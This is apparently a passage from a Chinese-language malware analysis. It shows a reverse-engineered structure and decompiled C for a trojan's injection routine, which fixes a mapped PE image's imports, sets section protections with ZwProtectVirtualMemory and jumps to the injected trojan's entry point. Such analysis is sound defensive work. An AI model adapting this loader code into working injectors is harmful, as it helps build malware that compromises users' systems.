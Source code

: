 ```
00000000 ImageBase       dd ?			//注入木马的基址
00000004 ImageEntry      dd ?			//注入木马的入口
00000008 ImageSize       dd ?
0000000C FixImportTable  dd ?         //用于修复导入表
00000010 SetSegProperty  dd ?        //用于修复PE节属性
00000014 LdrLoadDll      dd ?                    ; offset
00000018 LdrGetDllHandle dd ?                    ; offset
0000001C LdrGetProcedureAddress dd ?             ; offset
00000020 RtlInitString   dd ?                    ; offset
00000024 RtlAnsiStringToUnicodeString dd ?       ; offset
00000028 RtlFreeUnicodeString dd ?               ; offset
0000002C ZwProtectVirtualMemory dd ?             ; offset
00000030 ZwDelayExecution dd ?                   ; offset
00000034 ImagePath       db 260 dup(?)		//母程序路径
00000138 INJECTSTR       ends
```
ie_inject_f函数仍然是修复导入表：
```
void __cdecl modifyieentry(INJECTSTR *injectdata)
{
  v1 = __readeflags();
  v6 = v1;
  if ( injectdata && injectdata->FixImportTable(0, injectdata->ImageBase, injectdata->ImageSize, injectdata) )
  {
    secnum = *(_WORD *)(*(_DWORD *)(injectdata->ImageBase + 60) + injectdata->ImageBase + 6);
    secheaders = (IMAGE_SECTION_HEADER *)(*(_WORD *)(*(_DWORD *)(injectdata->ImageBase + 60) + injectdata->ImageBase + 20)
                                        + *(_DWORD *)(injectdata->ImageBase + 60)
                                        + injectdata->ImageBase
                                        + 24);
    if ( *(_WORD *)(*(_DWORD *)(injectdata->ImageBase + 60) + injectdata->ImageBase + 6) )
    {
      do
      {
        v4 = secnum;
        v5 = injectdata->SetSegProperty(secheaders->Characteristics);
        v10 = secheaders->VirtualAddress + injectdata->ImageBase;
        v9 = secheaders->Misc.PhysicalAddress;
        ((void (__stdcall *)(signed int, DWORD *, DWORD *, int, char *))injectdata->ZwProtectVirtualMemory)(
          -1,
          &v10,
          &v9,
          v5,
          &v11);
        ++secheaders;
        secnum = v4 - 1;
      }
      while ( v4 != 1 );
    }
    ((void (__stdcall *)(int, signed int, char *))injectdata->ImageEntry)(//调用注入的木马入口
      injectdata->ImageBase,
      1,
      injectdata->ImagePath);
    v7 = 0;
    v8 = 0x80000000;
    ((void (__stdcall *)(_DWORD, int *))injectdata->ZwDelayExecution)(0, &v7);
  }
  __writeeflags(v6);
}
```
* 内嵌PE  
